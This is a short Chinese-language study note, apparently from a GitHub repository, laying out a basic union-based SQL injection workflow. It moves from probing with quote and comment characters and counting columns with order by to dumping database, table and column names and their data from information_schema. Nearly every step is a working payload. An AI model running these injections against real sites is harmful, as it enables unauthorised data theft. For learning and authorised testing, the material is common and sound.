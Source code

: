 # 基础SQL注入流程

### 1.判断是否存在注入

1'         1'#

**输入注释后正常——字符型注入**

**输入注释后不正常——数字型注入**

### 2.查询字段数

**order by n**

### 3.查询哪个字段有回显

```mysql 
union select 1，2，3，4......#
```

### 4.查询数据库名

```my
union select 1,2,database(),4...#
```

### 5.查询表名

```my
union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='需要加单引号'#
```

**查询时可能只回显一位，所以需要用group_concat(table_name)  来集中回显表名**

### 6.查询列名

```mysql
union select 1,column_name,3,4 from information_schema.columns where table_name='表名结果'#
```

**此处同样可以利用group_concat来集中显示**

### 7.查询字段

```my
union select 列名,2,3,4 from 表名#
```

